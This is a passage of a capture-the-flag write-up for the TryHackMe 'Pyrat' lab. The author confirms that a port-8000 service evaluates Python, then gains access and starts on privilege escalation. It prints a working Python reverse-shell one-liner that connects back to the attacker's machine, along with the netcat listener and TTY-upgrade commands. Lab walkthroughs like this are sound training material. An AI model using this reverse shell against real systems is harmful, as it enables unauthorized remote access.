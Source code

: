 ### Port 8000

Based on the description of the room, the service Python executes via HTTP server is vulnerable. I used **`telnet`** to connect with the target server on port **`8000`** and perform a few attempts at the command line to verify it is running with Python syntax:

```
$ telnet pyrat.thm 8000
Trying 10.10.187.125...
Connected to pyrat.thm.
Escape character is '^]'.
?
invalid syntax (<string>, line 1)
help

print('hello')
hello

^C^]
telnet> quit
Connection closed.
```

Since the target service was verified, I use a **Python reverse shel**l to establish a connection back to my own machine:

```python
socket=__import__("socket");os=__import__("os");pty=__import__("pty");s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.6.68.89",4444));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);pty.spawn("/bin/sh")
```

```
$ nc -lvnp 4444
listening on [any] 4444 ...
connect to [10.6.68.89] from (UNKNOWN) [10.10.31.104] 49556
$
```

## Vulnerability Exploit

### Privilege Escalation 1

First of all, I spawned a **tty shell**:

```
$ whoami;id
whoami;id
www-data
uid=33(www-data) gid=33(www-data) groups=33(www-data)
$ python3 -c 'import pty; pty.spawn("/bin/bash")'
python3 -c 'import pty; pty.spawn("/bin/bash")'
bash: /root/.bashrc: Permission denied
www-data@Pyrat:~$ export TERM=xterm
export TERM=xterm
www-data@Pyrat:~$ ^Z
zsh: suspended  nc -lvnp 4444

┌──(kali㉿kali)-[~/TryHackMe/Pyrat]
└─$ stty raw -echo; fg
[1]  + continued  nc -lvnp 4444
                               stty rows 38 columns 116
www-data@Pyrat:~$ pwd; ls -lht
/root

```
